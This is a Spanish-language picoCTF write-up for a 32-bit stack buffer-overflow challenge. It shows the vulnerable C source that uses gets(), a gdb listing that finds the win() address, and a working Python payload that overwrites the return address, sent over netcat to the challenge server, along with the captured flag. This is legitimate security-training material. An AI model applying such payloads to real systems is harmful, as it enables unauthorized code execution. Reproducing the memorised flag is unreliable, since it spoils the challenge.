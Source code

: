 ## Objetivo
Control the return address
Now we're cooking! You can overflow the buffer and return to the flag function in the [program](https://artifacts.picoctf.net/c/187/vuln).You can view source [here](https://artifacts.picoctf.net/c/187/vuln.c). And connect with it using `nc saturn.picoctf.net 52253`
## Solución
Revisamos el código:
```bash
❯ catn vuln.c
#include <stdio.h>
#include <stdlib.h>
❯ catn vuln.c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include "asm.h"

#define BUFSIZE 32
#define FLAGSIZE 64

void win() {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  printf(buf);
}

void vuln(){
  char buf[BUFSIZE];
  gets(buf);

  printf("Okay, time to return... Fingers Crossed... Jumping to 0x%x\n", get_return_address());
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  puts("Please enter your string: ");
  vuln();
  return 0;
}

```
Notamos que la función `win` es la encargada de generar la bandera, pero no se llama en ningún punto del programa. Para solucionarlo, necesitamos provocar un desbordamiento de memoria que permita redirigir la ejecución hacia la función `win`. Para ello, identificaremos la dirección de memoria donde se encuentra la función `win` y utilizaremos ese valor en nuestro ataque.

```bash
❯ chmod +x vuln
❯ gdb vuln
GNU gdb (Ubuntu 15.0.50.20240403-0ubuntu1) 15.0.50.20240403-git
Copyright (C) 2024 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.
Type "show copying" and "show warranty" for details.
This GDB was configured as "x86_64-linux-gnu".
Type "show configuration" for configuration details.
For bug reporting instructions, please see:
<https://www.gnu.org/software/gdb/bugs/>.
Find the GDB manual and other documentation resources online at:
    <http://www.gnu.org/software/gdb/documentation/>.

For help, type "help".
Type "apropos word" to search for commands related to "word"...
Reading symbols from vuln...
(No debugging symbols found in vuln)
(gdb) info functions
All defined functions:

Non-debugging symbols:
0x08049000  _init
0x08049040  printf@plt
0x08049050  gets@plt
0x08049060  fgets@plt
0x08049070  getegid@plt
0x08049080  puts@plt
0x08049090  exit@plt
0x080490a0  __libc_start_main@plt
0x080490b0  setvbuf@plt
0x080490c0  fopen@plt
0x080490d0  setresgid@plt
0x080490e0  _start
0x08049120  _dl_relocate_static_pie
0x08049130  __x86.get_pc_thunk.bx
0x08049140  deregister_tm_clones
0x08049180  register_tm_clones
0x080491c0  __do_global_dtors_aux
0x080491f0  frame_dummy
0x080491f6  win
0x08049281  vuln
0x080492c4  main
0x0804933e  get_return_address
0x08049350  __libc_csu_init
0x080493c0  __libc_csu_fini
0x080493c5  __x86.get_pc_thunk.bp
0x080493cc  _fini
(gdb) 
```
Identificamos que el desbordamiento se produce después de los primeros 48 caracteres. Por ello, en los últimos 4 caracteres de nuestra entrada, insertaremos la dirección de memoria correspondiente a la función que queremos ejecutar. Esto nos permitirá redirigir la ejecución hacia la función `win` y así obtener la bandera.

```bash

❯ python3 -c "import sys;sys.stdout.buffer.write(b'A'*48)" | ./vuln
Please enter your string: 
Okay, time to return... Fingers Crossed... Jumping to 0x41414141
[1]    330486 done                              python3 -c "import sys;sys.stdout.buffer.write(b'A'*48)" | 
       330487 segmentation fault (core dumped)  ./vuln

❯ (python3 -c "import sys;sys.stdout.buffer.write(b'A'*44+b'\xf6\x91\x04\x08')";echo) | nc saturn.picoctf.net 51371
Please enter your string: 
Okay, time to return... Fingers Crossed... Jumping to 0x80491f6
picoCTF{addr3ss3s_ar3_3asy_b15b081e}                     
```
donde nos da la flag:
picoCTF{addr3ss3s_ar3_3asy_b15b081e}

## Notas Adicionales


## Referencias
